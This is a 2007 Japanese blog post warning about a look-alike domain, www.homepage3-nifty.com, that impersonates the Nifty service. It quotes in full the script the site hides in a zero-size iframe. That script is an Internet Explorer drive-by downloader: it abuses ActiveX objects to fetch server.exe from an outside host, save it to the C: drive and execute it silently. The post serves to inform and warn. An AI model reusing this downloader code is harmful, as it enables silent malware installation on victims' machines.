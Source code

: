 ```yaml
---
title: 「www.homepage3-nifty.com」という、niftyに偽装したサイトが登場
author: hylom
type: post
date: 2007-01-02T19:39:12+00:00
url: /2007/01/03/20070102-193912/
category:
  - Slashdot

---
```

タイトル通り。  
</br>   
「www.homepage3-nifty.com」と、URLだけみるとぱっと見nifty内にあるサイトっぽいけど、実はよく見ると分かるとおりnifty内ではなく、中国のサイトにつながるようで。</br>  
</br>   
で、このサイト上にあるページには幅0、高さ0のインラインフレームに以下のようなスクリプトを仕込んだページを表示させる、と。</br>   
よく考えるよなぁ。確かにこのURLだとダマされる人が出てくるかも。 

> <div>
>   <tt> function do1(mx&#44;as&#44;p) </tt>
> </div>

</br>   
{</br>   
&nbsp; &nbsp; mx.Send();</br>   
&nbsp; &nbsp; as.Type = 1;</br>   
&nbsp; &nbsp; as.Open();</br>   
&nbsp; &nbsp; as.Write(mx.responseBody);</br>   
&nbsp; &nbsp; as.SaveToFile(p&#44;2);</br>   
&nbsp; &nbsp; as.Close();</br>   
}</br>   
var a = null;</br>   
var mx&#44;as&#44;p;</br>   
p = &#8220;C:\\pageflies2.exe&#8221;</br>   
a = (document.createElement(&#8220;object&#8221;));</br>   
a.setAttribute(&#8220;classid&#8221;&#44;&#8221;clsid:BD96C556-65A3-11D0-983A-00C04FC29E36&#8221;);</br>   
try{mx = a.CreateObject(&#8220;Microsoft.XMLHTTP&#8221;&#44;&#8221;&#8221;);}catch(e){};</br>   
if(!mx)try{mx = new ActiveXObject(&#8220;Microsoft.XMLHTTP&#8221;);}catch(e){};</br>   
try{as = a.CreateObject(&#8220;Adodb.Stream&#8221;&#44;&#8221;&#8221;);}catch(e){};</br>   
if(as){</br>   
&nbsp; &nbsp; mx.Open(&#8220;GET&#8221;&#44;&#8221;http://www.game-oekakibbs.com/bbs/server.exe&#8221;&#44;0);</br>   
&nbsp; &nbsp; do1(mx&#44;as&#44;p);</br>   
&nbsp; &nbsp; var r;</br>   
&nbsp; &nbsp; try{r = a.CreateObject(&#8220;Shell.Application&#8221;&#44;&#8221;&#8221;);}catch(e){};</br>   
&nbsp; &nbsp; if(r)</br>   
&nbsp; &nbsp; {</br>   
&nbsp; &nbsp; &nbsp; &nbsp; r.ShellExecute(p&#44;&#8221;&#8221;&#44;&#8221;&#8221;&#44;&#8221;open&#8221;&#44;0);</br>   
&nbsp; &nbsp; }else</br>   
&nbsp; &nbsp; {</br>   
&nbsp; &nbsp; &nbsp; &nbsp; try{r = a.CreateObject(&#8220;WScript.Shell&#8221;&#44;&#8221;&#8221;);}catch(e){};</br>   
&nbsp; &nbsp; &nbsp; &nbsp; if(r)r.Run(p&#44;0);</br>   
&nbsp; &nbsp; }</br>   
}</br>
